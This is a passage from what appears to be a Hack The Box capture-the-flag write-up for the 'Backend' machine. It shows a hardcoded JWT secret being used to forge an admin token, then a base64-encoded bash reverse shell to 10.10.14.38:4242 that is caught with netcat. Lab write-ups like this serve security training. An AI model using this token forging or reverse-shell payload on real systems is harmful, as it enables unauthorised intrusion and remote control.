 ```python
    return subprocess.run(["/bin/sh","-c",command], stdout=subprocess.PIPE).stdout.strip()
```

Found in `/app/core/config.py`

```python
class Settings(BaseSettings):

    API_V1_STR: str = "/api/v1"
    JWT_SECRET: str = "SuperSecretSigningKey-HTB"
    ALGORITHM: str = "HS256"

    [...]

settings = Settings()
```

## Shell as user

### Craft JWT with debug variable

Now we have everything we need to create our custom JWT and add our `debug` variable in it.

```python
$ python               
Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> decoded = jwt.decode(your_token_here, "SuperSecretSigningKey-HTB", ["HS256"])
>>> decoded["debug"] = True
>>> token = jwt.encode(decoded, "SuperSecretSigningKey-HTB", "HS256")
>>> token
'your_fresh_new_token'
```

With this new token, let's try calling the `exec` endpoint again.

```bash
$ curl -s 'http://10.129.227.148/api/v1/admin/exec/id' -H 'Authorization: Bearer token'
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"
```
{: .nolineno }

### Exec reverse shell

Great! now we just have to get a reverse shell, not all of them are valid but after some trial and error this one works perfectly:

```bash
$ echo -n "bash -c 'bash  -i >& /dev/tcp/10.10.14.38/4242 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzgvNDI0MiAwPiYxJw==

$ curl -s 'http://10.129.227.148/api/v1/admin/exec/echo%20YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzgvNDI0MiAwPiYxJw==|base64%20-d|bash' -H 'Authorization: Bearer token' -H 'Content-Type: application/json'

$ nc -nlvp 4242  
listening on [any] 4242 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.227.148] 38424
bash: cannot set terminal process group (672): Inappropriate ioctl for device
bash: no job control in this shell
htb@Backend:~/uhc$
```
